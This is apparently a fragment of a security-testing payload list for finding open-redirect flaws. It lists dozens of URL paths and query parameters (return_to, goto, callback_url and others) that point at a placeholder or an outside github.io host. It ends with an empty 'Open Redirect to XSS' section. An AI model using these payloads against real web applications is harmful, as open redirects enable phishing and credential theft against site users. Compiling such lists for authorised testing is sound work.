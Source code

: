 ```html
/cgi-bin/redirect.cgi?{payload}
/out/{payload}
/out?{payload}
?view={payload}
/login?to={payload}
?image_url={payload}
?go={payload}
?return={payload}
?returnTo={payload}
?return_to={payload}
?checkout_url={payload}
?continue={payload}
?return_path={payload}
success=https://c1h2e1.github.io
data=https://c1h2e1.github.io
qurl=https://c1h2e1.github.io
login=https://c1h2e1.github.io
logout=https://c1h2e1.github.io
ext=https://c1h2e1.github.io
clickurl=https://c1h2e1.github.io
goto=https://c1h2e1.github.io
rit_url=https://c1h2e1.github.io
forward_url=https://c1h2e1.github.io
@https://c1h2e1.github.io
forward=https://c1h2e1.github.io
pic=https://c1h2e1.github.io
callback_url=https://c1h2e1.github.io
jump=https://c1h2e1.github.io
jump_url=https://c1h2e1.github.io
click?u=https://c1h2e1.github.io
originUrl=https://c1h2e1.github.io
origin=https://c1h2e1.github.io
Url=https://c1h2e1.github.io
desturl=https://c1h2e1.github.io
u=https://c1h2e1.github.io
page=https://c1h2e1.github.io
u1=https://c1h2e1.github.io
action=https://c1h2e1.github.io
action_url=https://c1h2e1.github.io
Redirect=https://c1h2e1.github.io
sp_url=https://c1h2e1.github.io
service=https://c1h2e1.github.io
recurl=https://c1h2e1.github.io
j?url=https://c1h2e1.github.io
url=//https://c1h2e1.github.io
uri=https://c1h2e1.github.io
u=https://c1h2e1.github.io
allinurl:https://c1h2e1.github.io
q=https://c1h2e1.github.io
link=https://c1h2e1.github.io
src=https://c1h2e1.github.io
tc?src=https://c1h2e1.github.io
linkAddress=https://c1h2e1.github.io
location=https://c1h2e1.github.io
burl=https://c1h2e1.github.io
request=https://c1h2e1.github.io
backurl=https://c1h2e1.github.io
RedirectUrl=https://c1h2e1.github.io
Redirect=https://c1h2e1.github.io
ReturnUrl=https://c1h2e1.github.io
```
**Open Redirect to XSS**
```javascript
```